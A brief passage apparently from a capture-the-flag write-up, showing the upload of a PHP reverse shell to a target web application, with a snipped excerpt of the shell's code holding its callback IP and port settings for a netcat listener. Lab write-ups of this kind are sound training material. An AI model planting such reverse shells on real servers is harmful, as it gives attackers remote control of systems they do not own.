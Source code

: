 ![Configuration menu, adding PHP](/media/2020.04/registry_7.png)

We can then upload our PHP reverse shell (from
`/usr/share/webshells/php/php-reverse-shell.php`). Pointing to our local
`netcat` running as bolt.

    :::PHP
    <?php
    <SNIP>
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 4343;       // CHANGE THIS
    $chunk_size = 1400;
    <SNIP>
